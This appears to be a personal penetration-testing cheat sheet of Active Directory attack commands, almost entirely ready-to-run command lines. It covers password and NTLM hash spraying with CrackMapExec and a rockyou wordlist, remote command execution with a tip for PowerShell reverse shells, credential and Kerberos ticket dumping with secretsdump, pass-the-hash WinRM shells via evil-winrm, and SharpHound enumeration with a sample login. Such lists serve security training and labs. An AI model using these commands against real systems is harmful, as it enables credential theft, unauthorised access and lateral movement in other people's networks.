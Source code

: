 ```
crackmapexec ldap 127.0.0.1 -u guest -p "" --kdcHost 127.0.0.1
```

```
crackmapexec ldap 127.0.0.1 -u username -p /usr/share/wordlists/rockyou.txt --kdcHost 127.0.0.1
```

run windows command; if setting up revershell, use powershell and escape $ characters with \\

```
crackmapexec smb 127.0.0.1 -u user -p password -x command
```

Hash dictionary attack

```
crackmapexec smb 127.0.0.1 -u users.txt -H NThashes.txt --continue-on-success
```

Hash spray

```
crackmapexec smb 127.0.0.1 -u users.txt -H :hash --continue-on-success --local-auth
```

Password dictionary attack

```
crackmapexec smb 127.0.0.1 -u users.txt -p passwords.txt --continue-on-success
```

This will dump domain credentials and or kerberos tickets. can be used with rdp session

```
secretsdump.py domain.com/username:password@127.0.0.1
```

```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

This will give us command prompt if port 5985 is open and user is allowed WinRM using Passing The Hash technique

```
evil-winrm -i 127.0.0.1 -u username -H NTML_HASH
```

This will give us command prompt if port 5985 is open and user is allowed WinRM using normal username and password

```
evil-winrm -i 127.0.0.1 -u username -p password
```

With Valid Creds use to enumerate AD as user rerun after gaining more privileges

```
. .\SharpHound.ps1;Invoke-BloodHound -CollectionMethod All
```

```
.\SharpHound.exe -c all --collectallproperties --ldapusername daisy.jordan --ldappassword Sprinkles1 -d bigturtleboys.local
```
